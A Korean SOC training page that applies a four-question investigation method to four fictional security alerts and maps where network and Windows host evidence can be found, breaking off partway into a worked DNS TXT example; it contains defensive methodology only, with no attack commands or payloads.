

# 조사 시작하기 — 질문, 데이터, 데이터가 있는 곳, 꺼내는 방법 { #questions-and-data }

!!! abstract "이 페이지에서 다루는 것"
    첫 한 시간을 날리지 않고 조사를 시작하는 법입니다. 포렌식 쪽에서 알렉시우 원칙(Alexiou Principle)이라고 부르는 간단한 네 질문 — **나는 어떤 질문에 답하려 하나, 어떤 데이터가 그 답을 주나, 그 데이터를 어떻게 꺼내나, 그 데이터가 무엇을 말해 주나** — 을 가상의 경보 넷에 적용합니다. 자격 증명 피싱 랜딩 페이지, 반복된 VNC 인증 실패, 원격 접근 트로이 목마(RAT) 체크인, DNS TXT 응답으로 들어온 Base64 PowerShell 명령. 경보마다 검증 질문과 후속 질문을 적고, 그 질문에 답해 줄 데이터를 고릅니다. 이어서 **웹 연결 하나가 흔적을 남기는 모든 곳**(브라우저, DNS 캐시, DNS 서버, 호스트 방화벽과 EDR, NetFlow, IDS와 메타데이터 센서, 프록시, 경계 방화벽, 전체 패킷 캡처, 경계 라우터)을 둘러보고, 호스트 쪽으로 넘어가 **무엇이 실행됐나, 왜 실행됐나, 그리고 Windows가 자기 사정으로 남겨 두는 포렌식 아티팩트**(Prefetch, AppCompatCache, Amcache, MUICache, UserAssist, 최근 파일 목록, 메모리)를 봅니다. 그다음 **대안 출처(alternative sources)**: "공식" 로그가 없을 때 어떻게 하나, SOC 분석가가 가장 자주 받는 질문별로 1차 출처와 대체 출처를 정리한 표. 그다음 **바깥 정보가 필요한가** — 공개 출처 정보(OSINT)와 비공개 정보 — 그리고 마지막으로 **데이터 꺼내기**: 어떤 질문에 어떤 콘솔을 쓰나, 왜 도구마다 검색 언어가 다른가. 경보 D는 처음부터 끝까지 풀어 봅니다. Zeek `dns.log`, `ipconfig /displaydns`, Sysmon 22, 4688, 4104를 필드 하나씩 읽습니다. 2026년 관점과 확인 문제로 마칩니다.

!!! note "표기"
    **[보충]** = 꼭 알아야 할 실무 보충, **[정정]** = 흔히 잘못 알려진 내용 정정, **[변경됨]**/**[주의]** = 최근 바뀐 점과 옛 방식대로 하면 위험한 점. 회사(Bluegum Freight), 호스트 이름, 계정, 도메인, IP, 경보 이름, 로그 줄은 모두 설명용 가상 값(`.example`, 문서용·사설 IP)입니다. 도구, 프레임워크, 그 저자는 실제이며 제 말로 설명했습니다.

## 한눈에 보는 핵심 8가지 { #key-points }

1. **클릭하기 전에 멈춘다.** 조사의 첫 2분은 검색이 아니라 계획에 쓴다. 질문이 분명하면, 그렇지 않았다면 스크롤하며 보냈을 한 시간을 아낀다.
2. **네 질문이 모든 조사의 뼈대다.** 무엇에 답하려 하나? 어떤 데이터가 답해 주나? 그 데이터를 어떻게 꺼내나? 그게 무엇을 말해 주나? 조사 자체에 적용한 분해(decomposition)다.
3. **첫 질문은 언제나 "이 경보가 진짜인가?"이다.** 바로 뒤에 "이것과 똑같아 보일 수 있는 다른 건 뭘까?"가 붙는다. 그다음에야 진짜 양성(true positive)이라면 생길 후속 질문이 온다.
4. **가장 손닿기 쉬운 데이터가 아니라, 질문에 가장 확실하게 답하는 데이터를 고른다.** 프록시는 사용자가 페이지에 갔다는 것까지만 말해 준다. 비밀번호를 입력했는지는 패킷 캡처나 아이덴티티 로그만 말해 준다.
5. **연결 하나는 최대 열 군데에 흔적을 남긴다.** 브라우저, DNS 캐시, DNS 서버, 호스트 방화벽·EDR, NetFlow, IDS·메타데이터 센서, 프록시, 방화벽, 전체 PCAP, 경계 라우터. 즐겨 쓰는 출처가 없어도 나머지는 남아 있다.
6. **호스트에서는 "무엇이 실행됐나"와 "왜 실행됐나"를 묻는다.** 프로세스 로그, EDR, 백신, 애플리케이션 제어가 *무엇*을, 부모 프로세스, 서비스, 예약 작업, 자동 시작 위치가 *왜*를 말해 준다. 보안 로그가 꺼져 있었어도 Windows가 살림살이용으로 남긴 아티팩트가 *처음 실행된 때*를 말해 준다.
7. **대안 출처를 안다.** 중요한 질문마다 1차 출처와 대체 출처 여럿이 있다. 빠른 분석가는 필요해지기 전에 대체 출처를 아는 사람이다.
8. **데이터 종류마다 어디 있는지, 어떤 도구가 그 질문에 가장 잘 답하는지 안다.** 패킷은 IDS 콘솔, 상관 분석은 SIEM, 프로세스 트리는 EDR. 그리고 도구마다 익숙해져야 할 검색 언어가 따로 있다.

## SOC에서 왜 중요한가 { #why }

물이 샌다고 배관공을 불렀다고 해 봅시다. 서툰 배관공은 바로 마루를 뜯습니다. 잘하는 배관공은 먼저 묻습니다. *물이 어디서 보이나요, 언제부터요, 뜨거운 물인가요 찬물인가요?* 이 세 질문으로 어느 관을 볼지 정해지고, 마루는 그대로 남습니다.

기술 이야기로 돌아오면, 경보를 연 신입 분석가는 서툰 배관공처럼 하기 쉽습니다. SIEM을 열고, IP 주소를 치고, 나오는 대로 읽기 시작하죠. 40분 뒤에는 브라우저 탭 열두 개, "뭔가 이상해 보인다"는 막연한 느낌, 그리고 답은 없습니다. 문제는 도구 실력이 아닙니다. 답이 어떤 모양일지를 아무도 정하지 않았다는 게 문제입니다. 이 페이지의 순서가 그걸 고칩니다. 조용한 장점도 하나 있습니다. 노트가 "내가 답하려던 질문"과 "내가 고른 데이터"로 시작하면, 검토자가 몇 초 만에 결론이 따라 나오는지 볼 수 있습니다. 나중에 사건 검토 섹션에서 바로 이걸 요구합니다.

## 네 가지 질문 { #four-questions }

2009년에 널리 공유된 한 포렌식 블로그 글이 짧은 체크리스트를 내놓았는데, 글쓴이가 함께 일한 포렌식 조사관 Mike Alexiou의 이름을 붙였습니다. 지금은 보통 **알렉시우 원칙**이라고 부릅니다. 제 말로 정리하면, 파고들기 전에 이것부터 답합니다.

1. **나는 어떤 질문에 답하려 하나?** 기기가 침해됐나? 어느 C2 서버와 통신하나? 어떤 악성코드인가? 데이터가 나갔나? 구체적으로 적습니다. "PC-0412에서 나쁜 일이 일어나고 있나?"는 끝낼 수 없는 질문이고, "PC-0412가 09:14 이메일의 첨부 파일을 실행했나?"는 끝낼 수 있는 질문입니다.
2. **답하려면 어떤 데이터가 필요한가?** 질문을 *가장 확실하게* 매듭지어 줄 증거를 떠올리고, 그 로그 종류의 이름을 댑니다. "첨부 파일이 Outlook의 자식 프로세스로 실행된 프로세스 생성 이벤트"는 정확하고, "호스트 로그 좀"은 그렇지 않습니다.
3. **그 데이터를 어떻게 얻나?** 어디 있나 — 호스트, SIEM, EDR 콘솔, 패킷 캡처 시스템, 온라인 서비스? 접근 권한이 있나? 얼마나 보관되나? 그다음 가서 가져옵니다.
4. **그 데이터가 무엇을 말해 주나?** 이게 본격적인 분석입니다. 모은 것을 해석하되, 가장 마음에 드는 가설 하나가 아니라 그걸 설명할 수 있는 모든 가설에 비춰 봅니다.

**[보충]** 이게 무엇인지 보세요. 구조화된 분석 섹션에서 작업 기억의 한계에 맞서 썼던 바로 그 **분해** 기법입니다. "이 경보 조사해"는 크고 막연한 일 하나지만, 작은 질문 넷은 끝내고 적어 둘 수 있는 일 넷입니다. 1번과 2번 질문의 답은 검색하기 *전에* 티켓에 적으세요. 1분이면 되고, 엉뚱한 데로 흘러가는 걸 막아 줍니다.

## 1번 — 어떤 질문에 답하려 하나? { #q1 }

어느 화요일 아침 Bluegum Freight 대기열에 들어온 경보 넷입니다(흔한 네트워크 IDS 규칙 세트 이름 형식을 흉내 낸 가상의 규칙 이름).

| 경보 | 규칙 제목 | 출발지 → 목적지 |
| --- | --- | --- |
| A | `PHISHING Credential Harvest Landing Page - Webmail Brand Kit` | 10.20.4.37 (BG-WS-0437) → 203.0.113.140:443 |
| B | `EXPLOIT VNC Multiple Authentication Failures` | 198.51.100.66 → 10.20.1.15 (BG-PLC-GW01):5900 |
| C | `MALWARE Generic RAT Check-in Beacon` | 10.20.6.12 (BG-WS-0612) → 203.0.113.9:8443 |
| D | `ATTACK_RESPONSE PowerShell Base64 Start-Process in DNS TXT Response` | 10.20.0.53 (BG-DNS01) ← 198.51.100.200:53 (클라이언트 10.20.3.88, BG-WS-0388 대신 질의) |

경보마다 질문을 두 겹으로 던집니다. 첫 겹은 늘 같습니다. **이 경보가 진짜인가, 그리고 이것과 똑같아 보일 수 있는 다른 건 뭔가?** 두 번째 겹은 경보가 *진짜라면* 알아야 할 것들입니다. 플레이북이 이런 질문을 일러 줘야 하지만, 어떤 플레이북에도 안 맞는 경보가 오는 날을 위해 스스로 만들어 낼 줄도 알아야 합니다.

**경보 A — 피싱 랜딩 페이지.**

- *검증:* 사용자가 정말 피싱 페이지를 열었나, 아니면 같은 브랜드 이미지를 쓰는 정상 페이지에 규칙이 걸렸나? 실제로 페이지를 연 건가, 아니면 링크 미리보기 서비스나 메일 게이트웨이의 URL 검사기가 미리 가져간(prefetch) 것뿐인가?
- *진짜라면:* 사용자가 이메일 속 링크를 눌렀나? 어떤 이메일, 누가 보냈나? 그 메일을 또 누가 받았고, 다른 사람도 눌렀나? **사용자가 그 페이지에 무엇을 입력했나** — 입력했다면 어느 계정이고, 그 뒤로 그 계정이 낯선 곳에서 로그인했나? (전달은 T1566.002 Phishing: Spearphishing Link, 자격 증명 탈취는 T1598.003 Phishing for Information: Spearphishing Link, 나중에 비밀번호를 쓰면 T1078 Valid Accounts.)

**경보 B — VNC 인증 실패.**

- *검증:* 정말 VNC였나, 아니면 5900번 포트의 다른 무엇이었나? 정말 반복된 실패였나, 몇 번이었나? 출발지가 예상된 주소인가?
- *진짜라면:* 우리가 VNC를 허용하긴 하나? 이 호스트에, 인터넷에서? 어느 계정(또는 공용 VNC 비밀번호)을 시도했나? 그때 누가 로그온해 있었나? 성공한 시도가 있나? (T1021.005 Remote Services: VNC에 대한 T1110.001 Brute Force: Password Guessing, 밖에서 닿는다면 T1133 External Remote Services.)

**경보 C — RAT 체크인.**

- *검증:* 이 호스트가 감염된 건가, 아니면 정상 프로그램이 규칙 무늬와 비슷한 트래픽을 보낸 건가? 이 트래픽이 정말 명령·제어(C2) 서버로의 체크인인가?
- *진짜라면:* 트래픽이 허용됐나 차단됐나? 어떤 프로세스가 보냈나? 그 프로그램은 어떻게 들어왔고 어떻게 계속 살아남나(지속성)? 비콘은 언제 시작됐나? 같은 목적지와 통신하는 다른 호스트가 있나? (T1071.001 Application Layer Protocol: Web Protocols, T1571 Non-Standard Port — 여기서는 8443.)

**경보 D — DNS TXT 응답 속 PowerShell.**

- *검증:* DNS 응답에 정말 PowerShell 명령이 들어 있었나? 경보가 주장하는 그 명령인가? 누가 물어봤나 — DNS 서버는 클라이언트 대신 전달만 할 뿐이다.
- *진짜라면:* 클라이언트의 어떤 프로세스가 조회했나? 그 답으로 무엇을 했나 — 프로세스가 시작됐나? 부모는 누구인가? 어떤 도메인을 조회했고, 다른 누가 같은 도메인을 조회하나? (T1071.004 Application Layer Protocol: DNS, T1059.001 Command and Scripting Interpreter: PowerShell.)

이 질문들 중 어느 것도 "이 IP가 나쁜가?"가 아니라는 점을 보세요. 평판은 쓸모 있는 단서지만, 이 경보들이 결국 묻는 것은 그게 아닙니다.

## 2번 — 답하려면 어떤 데이터가 필요한가? { #q2 }

이제 질문마다 *가장 좋은* 증거를 고릅니다. 여기서 데이터 출처를 깊이 아는 게 빛을 봅니다. 가장 쓸모 있는 출처를 빨리 댈수록 빨리 끝납니다.

| 경보 | 질문 | 가장 좋은 데이터 | 그 출처인 이유 |
| --- | --- | --- | --- |
| A | 사용자가 페이지에 갔나? | 프록시나 HTTP(S) 로그, DNS 로그 | 그 호스트의 URL(프록시), 적어도 도메인과 시각(DNS)을 보여 줌 |
| A | 무엇을 입력했나? | 전체 PCAP(복호화된 경우)나 그 페이지로의 `POST`가 보이는 프록시 로그, 이후의 아이덴티티 공급자 로그인 로그 | `GET`은 방문, 본문이 있는 `POST`는 제출, 낯선 곳에서의 새 로그인은 그 결과 |
| A | 어느 이메일, 또 누가? | 메일 게이트웨이/SMTP 로그, 메시지 추적 | URL에서 메시지와 수신자로 거슬러 올라감 |
| B | 정말 VNC였나, 실패는 몇 번? | PCAP, Zeek `conn.log`, NetFlow, IDS 경보의 패킷 | 프로토콜 확인, 연결 수 세기, 짧은 실패였는지 보기 |
| B | VNC가 허용되나? | 정책 문서, 방화벽 규칙, 자산 담당자 | 무엇이 허용되는지는 업무 쪽만 말할 수 있음 |
| B | 어느 계정, 성공했나? | VNC 서버 자체 로그, 호스트의 Windows Security 로그 | VNC 서버는 인증 결과를, OS는 누가 로그온해 있었는지를 기록 |
| B | 계정 뒤에 누가 있나? | 디렉터리와 인사 데이터 | 사람인가, 공용 로그인인가, 업체 계정인가? |
| C | 트래픽이 정말 악성인가? | PCAP이나 HTTP(S)/TLS 메타데이터(Zeek `http.log`/`ssl.log`) | 실제 요청을 규칙이 기대하는 것과 비교 |
| C | 어떤 프로세스, 어떻게 들어왔나? | EDR, Sysmon 1과 3, 4688, 백신과 애플리케이션 제어 로그 | 네트워크 로그는 IP에서 멈추고, 프로세스는 호스트가 앎 |
| D | TXT 응답이 정말 명령이었나? | **응답까지** 남기는 DNS 로그(Zeek `dns.log`, DNS 분석 로그) | 많은 DNS 로그는 질문만 적음 — 여기선 쓸모없음 |
| D | 무엇이 실행됐나? | PowerShell 4104 스크립트 블록 로그, 4688/Sysmon 1, EDR | 디코딩된 명령과 프로세스 트리를 보여 줌 |

이 표에 교훈이 둘 숨어 있습니다.

**첫째, 검증과 후속 조사는 서로 다른 출처가 필요할 때가 많습니다.** 경보 A의 "갔나?"는 프록시가 몇 초 만에 답하지만, "입력했나?"는 훨씬 풍부한 데이터가 있어야 합니다.

**둘째, 네트워크로 갈 수 있는 데는 한계가 있습니다.** 여기 경보들은 모두 호스트만 답할 수 있는 질문으로 끝납니다. 어떤 프로세스, 어떤 계정, 무엇이 실행됐나. 이 노트에서 네트워크 파트와 호스트 파트가 이 섹션보다 먼저 나온 이유가 그겁니다.

**[보충]** 경보 D를 위해, 필요해지기 *전에* DNS 로그가 응답을 남기는지 확인하세요. Windows DNS 서버의 디버그 로그와 DNS 분석(analytic) 채널은 남길 수 있고, Zeek `dns.log`도 남깁니다(`answers` 필드). 하지만 조회한 이름만 남기는 DNS 로그 파이프라인도 많습니다. 사고 중에 알게 되면 이미 늦습니다.

## 3번 — 네트워크 연결이 흔적을 남기는 모든 곳 { #network-sources }

가장 단순한 사건을 봅시다. BG-WS-0437의 사용자가 09:16에 브라우저에 URL을 칩니다. 이것에 대해 무언가를 기록하는 곳을 세어 봅니다.



위 소스는 Mermaid입니다. `graph LR`은 왼쪽에서 오른쪽으로 그리라는 뜻이고, `X["label"]` 하나가 상자 하나, `-->` 하나가 트래픽이 지나가는 순서대로의 화살표 하나입니다.

1. **브라우저 기록.** URL이 브라우저의 기록 데이터베이스에 적힙니다. 중앙에서 모으진 않지만, 살아 있는 호스트나 이미지에서는 급할 때 쓸 만합니다.
2. **DNS 캐시와 DNS 서버.** 호스트가 이름을 해석합니다. 해석한 답은 Windows DNS 클라이언트 캐시(`ipconfig /displaydns`)에 남고, 내부 DNS 서버는 출발지, 이름, 그리고 — 설정했다면 — 답을 기록합니다.
3. **호스트 자체.** Windows 방화벽이 나가는 연결을 기록할 수 있고, EDR과 Sysmon(이벤트 3, 네트워크 연결, 이벤트 22, DNS 질의)이 어느 프로세스가 연결했는지 남깁니다.
4. **내부 네트워크의 NetFlow.** 스위치와 라우터가 흐름을 요약합니다. 출발지, 목적지, 포트, 바이트, 시각.
5. **IDS와 메타데이터 센서.** Suricata가 경보를 내고, Zeek이 `conn.log`, `dns.log`, `ssl.log`/`http.log`를 씁니다.
6. **프록시.** 출발지와 목적지, URL(TLS 검사를 하면 전체 경로, 안 하면 적어도 CONNECT 요청이나 SNI의 호스트 이름), 그리고 흔히 **사용자 이름**까지 남깁니다.
7. **경계 방화벽.** 연결을 다시 기록합니다. NAT 뒤라서 내부 주소는 변환 테이블에만 있을 수도 있습니다.
8. **전체 패킷 캡처.** 저장 공간이 허락하는 동안 거래 전체를 바이트 단위로 남깁니다.
9. **경계 라우터.** 트래픽이 나갈 때 NetFlow를 한 번 더 남길 수 있습니다.

분석가 대부분은 웹 트래픽이라면 곧장 프록시를 "그" 출처로 갑니다. 첫 정거장으로는 맞습니다. 하지만 이 목록은 프록시가 죽었거나, 우회됐거나, 그 요청만 안 남겼을 때도 얼마나 많은 게 남아 있는지 보여 줍니다.

그중 하나를 호스트에서 직접 봅시다. 경보 D의 클라이언트 BG-WS-0388에서, 원격 접근 권한이 있는 분석가가 이렇게 칩니다.

```
C:\> ipconfig /displaydns
```

출력의 일부:

```
    upd-telemetry.example
    ----------------------------------------
    Record Name . . . . . : upd-telemetry.example
    Record Type . . . . . : 16
    Time To Live  . . . . : 41
    Data Length . . . . . : 8
    Section . . . . . . . : Answer
    TXT Record  . . . . . :
```

- `Record Name` — 해석한 이름.
- `Record Type . . . . . : 16` — 16번은 **TXT**입니다. 평범한 사무용 PC는 이메일·도메인 확인 같은 몇 가지 용도 말고는 TXT 레코드를 거의 조회하지 않습니다. 캐시에 하나 있는 것만으로 이미 눈여겨볼 만합니다.
- `Time To Live . . . . : 41` — Windows가 잊기까지 41초 남았다는 뜻. 캐시는 휘발성이라 최근 조회만 들고 있고, 재부팅이나 `ipconfig /flushdns` 한 번이면 사라집니다. 일찍 수집하세요.
- `Section . . . . . . . : Answer` — 응답의 답(answer) 부분이었다는 뜻.
- `TXT Record` — 이 화면에서 Windows는 TXT 내용을 제대로 안 보여 주거나 아예 비워 둘 때가 많습니다. 그래서 캐시는 조회가 *있었다*는 증거로 쓰고, *무엇이* 돌아왔는지는 DNS 서버나 Zeek 로그에서 봅니다.

## 3번 — 호스트가 실행된 것을 기록하는 모든 곳 { #host-sources }

호스트에서는 질문을 둘로 나눕니다.

**무엇이 실행됐나?** 일부러 켜 둔 보안 기록:

- **백신, EDR, HIPS** — 탐지, 프로세스 트리, 파일·네트워크 이벤트.
- **애플리케이션 제어**(AppLocker, WDAC/App Control for Business) — 허용·차단된 실행, 경로와 해시.
- **Sysmon 이벤트 1**과 **Security 이벤트 4688** — 명령줄과 부모를 포함한 프로세스 생성. 4688은 "프로세스 생성 감사"가 켜져 있으면 새 프로세스가 만들어질 때마다 생깁니다(명령줄은 따로 정책을 켜야 남습니다). 공격자에게 중요한 이유는 이게 그들의 명령을 드러내는 이벤트이기 때문입니다. 그래서 공격자는 이미 있는 프로세스 안에서 실행하거나 로그를 지우려 합니다.
- **PowerShell 로그** — 4104 스크립트 블록 로깅은 PowerShell이 실제로 실행한 코드를 디코딩한 *뒤의* 모습으로 남깁니다. 공격자가 PowerShell 2.0으로 내려가거나 이 기록을 끄려는 이유입니다.

**왜 실행됐나?** 실행을 설명해 주는 맥락:

- **부모 프로세스** — `WINWORD.EXE`가 `powershell.exe`를 띄운 것과 `explorer.exe`가 띄운 것은 전혀 다른 이야기입니다.
- 수집 시점의 **실행 중인 프로세스와 그 트리**.
- **설치된 서비스**(새 서비스가 설치되면 7045)와 **예약 작업**(만들어지면 4698).
- **자동 시작 확장 지점(ASEP, Autostart Extensibility Points)** — Run 키, 시작 프로그램 폴더, WMI 구독, 그리고 Sysinternals Autoruns가 보여 주는 수백 군데.

이걸로 무언가가 평소의 시스템 서비스·작업인지 새로 생긴 것인지, 그리고 무엇이 그걸 시작했는지 알 수 있습니다.

**포렌식 출처 — Windows가 자기 사정으로 기억하는 것.** 이 아티팩트들은 무언가를 감사하려고가 아니라 Windows를 빠르고 편하게 만들려고 존재합니다. 바로 그래서 쓸모 있습니다. 공격자가 잊어버리고, 보안 로깅이 꺼져 있었어도 남아 있으니까요.

| 아티팩트 | Windows가 쓰는 용도 | 알려 주는 것 | 주의할 점 |
| --- | --- | --- | --- |
| **Prefetch** (`C:\Windows\Prefetch\*.pf`) | 프로그램 시작 속도 높이기 | 프로그램이 실행됐다는 것, 실행 횟수, 마지막 실행 시각(최대 8개), 읽어 들인 파일 | 많은 서버에서 기본으로 꺼져 있음, 최대 1024개 |
| **AppCompatCache / Shimcache** (SYSTEM 하이브) | 응용 프로그램 호환성 확인 | 파일이 시스템에 있었다는 것(옛 Windows에서는 흔히 실행까지), 경로, 파일 수정 시각 | Windows 10/11에서는 있음 ≠ 실행, 종료할 때 기록됨 |
| **Amcache.hve** **[보충]** | 응용 프로그램 목록 관리 | 경로, 파일의 SHA-1, 처음 본 시각 | 존재와 설치를 남길 뿐 실행을 늘 남기진 않음 |
| **MUICache** (사용자 `UsrClass.dat`) | 프로그램 표시 이름 캐시 | 사용자가 셸로 실행한 프로그램 | 사용자별, 항목별로 믿을 만한 시각 없음 |
| **UserAssist** (사용자 `NTUSER.DAT`) | 시작 메뉴·탐색기 사용 통계 | GUI로 실행한 프로그램, 실행 횟수, 마지막 실행 시각(이름은 ROT13으로 인코딩) | 탐색기로 시작한 프로그램만 |
| **RecentDocs / Office MRU / 점프 목록** | "최근 파일" 목록 | 사용자가 어떤 문서를 언제 열었나 | 사용자별, 프로그램별 |
| **메모리** | — | 실행 중인 프로세스, 네트워크 연결, 주입된 코드, 복호화된 문자열 | 재부팅하면 사라짐, 일찍 수집 |

**[보충]** 이걸 손으로 모을 필요는 없습니다. Velociraptor, KAPE 같은 수집 도구가 여러 호스트에서 몇 분 만에 모아 주고, Eric Zimmerman 도구가 분석해 줍니다(Prefetch는 PECmd, AppCompatCacheParser, AmcacheParser, 레지스트리 키는 RECmd). 이런 용도로 만든 옛 PowerShell 프레임워크 Kansa는 GitHub에 남아 있지만 더 이상 활발히 개발되지 않습니다. 요즘 팀은 대개 Velociraptor나 EDR의 라이브 대응(live response) 기능을 씁니다.

**예제: 호스트에서 본 경보 C.** 네트워크는 BG-WS-0612가 203.0.113.9:8443으로 비콘을 보낸다고 말합니다. EDR에는 `C:\Users\r.okafor\AppData\Local\Temp\vcupd.exe` 프로세스가 그 연결을 만든다고 나옵니다. 분석가가 아티팩트 셋을 확인합니다.

- Prefetch 파일 `VCUPD.EXE-3A1F2C04.pf`: 실행 9회, 처음 실행 11월 18일 08:52.
- 같은 경로의 Amcache 항목, SHA-1이 EDR의 해시와 일치.
- 그 파일을 가리키는 Run 키 `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\VCUpdate`(T1547.001 Boot or Logon Autostart Execution: Registry Run Keys).

이제 서로 독립된 출처 셋이 "무엇이 실행됐나, 언제부터, 왜 계속 실행되나"에 답합니다. 경보 C가 던진 바로 그 질문들이죠.

## 대안 출처 { #alternative-sources }

질문 종류마다 **1차 출처(primary source)** — 그걸 기록하려고 만든 시스템 — 와, 우연히 같은 정보를 담고 있거나 그걸 추론하게 해 주는 **대안 출처**가 있습니다.

- IP 주소 할당 → DHCP 로그.
- 웹 트래픽 → 프록시 로그.
- 로그온 → Windows Security 로그.

이제 누군가 1차 출처를 빼앗아 갔다고 상상해 보세요. 프록시가 우회됐거나, DHCP 서버가 로그를 덮어썼거나, 도메인 컨트롤러의 Security 로그가 밤새 한 바퀴 돌아 지워졌습니다. 그래도 답할 수 있나요? 완벽한 정보로 끝나는 조사는 드뭅니다. 빠른 분석가는 대체 출처를 *미리* 아는 사람입니다.

| 질문 | 1차 출처 | 대안 출처 |
| --- | --- | --- |
| 07:40에 IP 10.20.3.88을 가진 기기는? | DHCP 임대 기록 | 그 기기가 로그온한 서버의 4624 `IpAddress`, DC의 Kerberos 4768/4769(클라이언트 주소), EDR 자산 목록, VPN/NAC 로그, 무선 컨트롤러, 스위치 ARP/MAC 테이블 |
| 누가 `invoice-portal.example`에 갔나? | 프록시(URL + 사용자) | DNS 서버 로그(호스트 + 이름), Zeek `dns.log`/`ssl.log`(SNI), 방화벽, NetFlow(IP로), Sysmon 22/3, 브라우저 기록 |
| 누가 BG-FS02에 로그온했나? | BG-FS02의 Security 4624/4625 | DC의 4768/4769/4776, EDR 로그온 이벤트, RDP 로그(`TerminalServices-*` 채널), 파일 공유 감사 5140, VPN이나 아이덴티티 공급자 로그인 |
| BG-WS-0612에서 무엇이 실행됐나? | EDR / 4688 / Sysmon 1 | Prefetch, Amcache, Shimcache, 백신 로그, 애플리케이션 제어, 4104, 메모리 |
| 데이터가 나갔나? | DLP / 프록시 업로드 로그 | NetFlow와 Zeek `conn.log` 바이트 수, 방화벽 세션 바이트, 클라우드 감사 로그(SharePoint/OneDrive/S3), EDR 파일 이벤트 |

**4624**는 "계정이 로그온에 성공했다"는 이벤트이고, 네트워크 로그온이라면 `IpAddress` 필드가 어디서 왔는지 보여 줍니다. **4768**은 도메인 컨트롤러에서의 Kerberos TGT 요청, **4769**는 서비스 티켓 요청이고, 둘 다 클라이언트 주소를 남깁니다. **4776**은 DC에서의 NTLM 자격 증명 확인입니다. 공격자가 이 모두를 신경 쓰는 이유는 훔친 자격 증명이 *쓰이는* 순간을 기록하기 때문입니다. 그래서 대상 호스트의 로그가 사라져도 옆 이동(lateral movement)은 DC에 드러납니다.

**[보충]** 이 표를 *내* 네트워크 버전으로 만들어 두세요. 가장 자주 받는 질문 여섯 개를 적고, 옆에 우리 환경에서 그걸 답할 수 있는 모든 출처와 각각의 보관 기간을 적습니다. 보관 기간도 답의 일부입니다. 7일만 보관하는 대체 출처는 열흘 전 사건에는 쓸모가 없습니다.

## 바깥 정보가 필요한가? { #osint }

SIEM과 위협 인텔리전스 플랫폼에 필요한 게 다 있을 때도 있습니다. 하지만 없을 때가 많습니다. 도메인이 생긴 지 며칠 안 됐거나, 그 해시가 우리 환경에서 한 번도 보인 적이 없거나. 그럴 때 **공개 출처 정보(OSINT, Open-Source Intelligence)** 가 필요합니다. 뽑아낸 조각(도메인, IP, 해시, 문자열)을 들고 공개된 곳에서 맥락을 찾는 겁니다.

- **평판·샌드박스 서비스** — VirusTotal, Hybrid Analysis, urlscan.io 같은 곳.
- **보안 업체 연구 블로그**와 그 지표나 기법을 다룬 악성코드 분석 글.
- **코드·검색 엔진** — GitHub(스크립트의 문자열 하나가 그게 나온 공개 도구로 이어지기도 함), 일반 웹 검색.

**비공개 정보(closed-source)** 도 잊지 마세요. 공개되진 않았지만 내가 접근할 수 있는 정보입니다. 업종별 **ISAC**(정보 공유·분석 센터)와 **ISAO**(정보 공유·분석 조직), 국가 CERT의 협력 기관 포털, 샌드박스·평판 서비스의 유료 구독, 업체의 위협 인텔리전스 보고서. 공개 출처에 없는 바로 그 맥락이 여기 있을 때가 많고, 일부는 OPSEC 섹션에서 설명할 공유 제한(TLP)을 달고 옵니다.

**[주의]** 조회는 모두 공개이기도 합니다. 해시를 검색하는 건 대개 해가 없지만, 파일을 **올리거나** 공개 검사용으로 URL을 **제출하면** 회사 문서가 공개되거나, 피해자 전용 링크가 드러나거나, 우리가 눈치챘다는 걸 공격자에게 알릴 수 있습니다. 진행 중인 사건에서 무언가 제출하기 전에 서비스마다 공개 범위 설정을 알아 두세요(예: urlscan.io는 공개, 목록 비공개(unlisted), 비공개(private) 검사를 제공합니다). 분석 OPSEC 섹션에서 제대로 다룹니다.

## 3번 — 데이터를 어떻게 꺼내나? { #q3 }

데이터 종류를 알았으면 그게 어디 있고 어떻게 꺼낼지 찾습니다. 효율적인 분석가는 세 가지를 압니다.

1. **데이터 종류마다 어디에 있는지** — 여러 곳에 있을 때가 많다.
2. **이 질문에 어떤 도구가 가장 좋은지** — SIEM인가, 전용 제품인가.
3. **그 도구에서 검색을 어떻게 쓰는지.**

IDS 경보를 예로 들어 봅시다. 경보는 IDS 자체 콘솔에도 보이고 SIEM으로도 넘어갑니다. 어느 쪽을 써야 할까요? 다음 질문에 달려 있습니다.

| 다음 질문이 이거라면… | 쓸 곳 | 이유 |
| --- | --- | --- |
| "경보를 울린 패킷을 보여 줘" | IDS 콘솔 / 패킷 캡처 시스템(예: Arkime) | 대부분의 SIEM은 PCAP을 열어 보지 못함 |
| "이 호스트가 지난 한 시간 동안 또 뭘 했지?" | SIEM | 여러 로그 출처를 엮는 게 SIEM의 일 |
| "어느 프로세스가 연결을 만들었지?" | EDR 콘솔 | 프로세스 트리와 라이브 대응 |
| "이 메일을 또 누가 받았지?" | 메일 게이트웨이 메시지 추적 | 배달 기록을 가지고 있음 |

도구마다 검색 언어도 따로입니다. Splunk는 SPL, Microsoft Sentinel과 Defender는 KQL, Elastic은 KQL/Lucene/ES|QL, Arkime은 자체 표현식 문법 하는 식이죠. IDS, 패킷 캡처 시스템, SIEM이 있는 분석가는 적어도 세 언어를 쓸 줄 알아야 합니다. 신입에게는 진짜 넘어야 할 고개이니, 일부러 연습할 가치가 있습니다. 도구마다 자주 받는 질문 하나당 잘 도는 검색문 하나씩 적어 둔 나만의 "검색 요리책"을 만들어 두세요.

## 예제: 경보 D, 질문에서 답까지 { #worked-d }

**1번 질문 — 무엇에 답하나?** 티켓에 먼저 적습니다. *"BG-WS-0388이 DNS TXT 레코드로 전달된 PowerShell 명령을 받아서 실행했나? 그렇다면 무엇을 실행했고, 다른 호스트도 영향을 받았나?"*

**2번 질문 — 어떤 데이터?** 응답까지 남긴 DNS 로그(검증용), 호스트의 DNS·프로세스 이벤트(프로세스 찾기용), PowerShell 4104(명령 보기용).

**3번 질문 — 어디서, 어떻게?** BG-DNS01 앞의 Zeek 센서가 SIEM으로 로그를 보냅니다. 워크스테이션의 Sysmon과 Security 로그도 SIEM에 있습니다. 프로세스 트리는 EDR에 있습니다.

경보 시각의 Zeek `dns.log` 항목(읽기 쉽게 이름=값으로, 답은 줄임):

```
